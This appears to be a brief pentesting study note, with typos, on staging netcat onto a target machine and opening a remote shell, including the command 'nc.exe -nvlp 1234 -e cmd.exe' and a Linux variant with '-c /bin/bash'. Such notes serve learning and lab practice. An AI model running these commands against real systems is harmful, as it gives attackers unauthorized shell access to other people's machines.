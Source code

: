 

- cd windows-binaries
- start webserver
- donwload nc.exe in target machine
- run listner in target system with -e cmd.exe executable
	- nc.exe -nvlp 1234 -e cmd.exe
- on attacker machine run lsterner with target ip machine
- and we are connected
- we can reverse it but in linnux we say -c /bin/bash